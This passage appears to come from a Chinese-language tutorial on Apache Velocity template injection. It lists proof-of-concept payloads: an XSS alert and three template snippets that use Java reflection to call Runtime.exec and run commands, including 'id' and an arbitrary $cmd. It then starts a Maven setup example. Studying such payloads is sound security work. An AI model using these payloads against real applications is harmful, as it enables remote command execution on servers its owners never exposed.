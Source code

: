 ### 3.3 常见 POC

web 程序中弹出 msg 的例子：

```plain
#if($msg)

<script>
alert('$!msg');
</script>

#end
```

命令执行 POC：

```plain
// 命令执行 1
#set($e="e")
$e.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec("open -a Calculator")

// 命令执行 2 
#set($x='')##
#set($rt = $x.class.forName('java.lang.Runtime'))##
#set($chr = $x.class.forName('java.lang.Character'))##
#set($str = $x.class.forName('java.lang.String'))##
#set($ex=$rt.getRuntime().exec('id'))##
$ex.waitFor()
#set($out=$ex.getInputStream())##
#foreach( $i in [1..$out.available()])$str.valueOf($chr.toChars($out.read()))#end

// 命令执行 3
#set ($e="exp")
#set ($a=$e.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec($cmd))
#set ($input=$e.getClass().forName("java.lang.Process").getMethod("getInputStream").invoke($a))
#set($sc = $e.getClass().forName("java.util.Scanner"))
#set($constructor = $sc.getDeclaredConstructor($e.getClass().forName("java.io.InputStream")))
#set($scan=$constructor.newInstance($input).useDelimiter("\A"))
#if($scan.hasNext())
$scan.next()
#end
```

### 3.4 简单例子

第一：导入依赖

```plain
<dependency>
    <groupId>org.apache.velocity</groupId>
    <artifactId>velocity</artifactId>
    <version>1.7</version>
</dependency>
```
